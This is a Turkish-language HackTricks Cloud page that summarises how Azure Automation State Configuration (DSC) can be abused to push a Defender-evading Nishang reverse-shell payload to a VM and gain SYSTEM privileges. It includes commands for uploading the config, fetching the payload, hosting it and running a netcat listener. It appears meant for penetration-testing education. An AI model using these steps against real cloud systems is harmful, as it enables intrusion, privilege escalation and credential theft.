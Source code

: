 # Az - State Configuration RCE

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

**Tam gönderiyi kontrol edin:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Uzaktan Sunucu (C2) Altyapı Hazırlığı ve Adımlarının Özeti

#### Genel Bakış

Bu süreç, Windows Defender'ı atlatmak için tasarlanmış, `RevPS.ps1` adında değiştirilmiş bir Nishang `Invoke-PowerShellTcp.ps1` yükünü barındırmak üzere uzaktan bir sunucu altyapısı kurmayı içerir. Yük, IP'si `40.84.7.74` olan bir Kali Linux makinesinden basit bir Python HTTP sunucusu kullanılarak sunulmaktadır. İşlem birkaç adımda gerçekleştirilir:

#### Adım 1 — Dosyaları Oluşturma

* **Gerekli Dosyalar:** İki PowerShell betiğine ihtiyaç vardır:
1. `reverse_shell_config.ps1`: Yükü alıp çalıştıran bir İstenilen Durum Yapılandırması (DSC) dosyasıdır. [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1) adresinden temin edilebilir.
2. `push_reverse_shell_config.ps1`: Yapılandırmayı VM'ye yayınlamak için bir betik, [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1) adresinde mevcuttur.
* **Özelleştirme:** Bu dosyalardaki değişkenler ve parametreler, kullanıcıya özgü ortam için, kaynak adları, dosya yolları ve sunucu/yük tanımlayıcıları dahil olmak üzere özelleştirilmelidir.

#### Adım 2 — Yapılandırma Dosyasını Zip'leme

* `reverse_shell_config.ps1` bir `.zip` dosyasına sıkıştırılır, böylece Azure Storage Account'a transfer için hazır hale gelir.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Adım 3 — Depolama Bağlamını Ayarla ve Yükle

* Sıkıştırılmış yapılandırma dosyası, Azure'un Set-AzStorageBlobContent cmdlet'ini kullanarak önceden tanımlanmış Azure Depolama konteyneri olan azure-pentest'e yüklenir.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Adım 4 — Kali Kutusunu Hazırlama

* Kali sunucusu RevPS.ps1 yükünü bir GitHub deposundan indirir.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Script, hedef Windows VM ve ters shell için port belirtmek üzere düzenlenir.

#### Adım 5 — Konfigürasyon Dosyasını Yayınla

* Konfigürasyon dosyası çalıştırılır ve ters shell scripti, Windows VM üzerindeki belirtilen konuma dağıtılır.

#### Adım 6 — Payload'ı Barındır ve Dinleyici Kur

* Payload'ı barındırmak için bir Python SimpleHTTPServer başlatılır ve gelen bağlantıları yakalamak için bir Netcat dinleyicisi kurulur.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Planlı görev, yükü çalıştırarak SYSTEM düzeyinde ayrıcalıklar elde eder.

#### Sonuç

Bu sürecin başarılı bir şekilde yürütülmesi, kimlik bilgisi dökümü veya saldırının birden fazla VM'ye genişletilmesi gibi daha fazla eylem için sayısız olasılık açar. Kılavuz, Azure Automation DSC alanında sürekli öğrenmeyi ve yaratıcılığı teşvik eder.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
